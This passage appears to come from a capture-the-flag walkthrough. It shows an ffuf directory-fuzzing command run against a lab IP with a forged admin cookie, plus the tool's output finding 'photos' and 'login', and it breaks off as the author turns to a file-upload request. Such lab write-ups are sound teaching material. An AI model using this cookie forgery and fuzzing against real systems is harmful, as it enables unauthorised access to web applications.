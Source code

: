 We can fuzz with our new cookie to check if we missed anything:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "https://10.10.20.176:8080/FUZZ" -H "Cookie: login=hayley_is_admin" -H "User-Agent: Mozilla/5.0" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://10.10.20.176:8080/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Header           : Cookie: login=hayley_is_admin
 :: Header           : User-Agent: Mozilla/5.0
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

photos
login
```

We can find `photos` on here, let's check it up:

![image-12.png](../../IMAGES/image-12.png)

We can upload files, let's take a look at the request for uploading a test file:
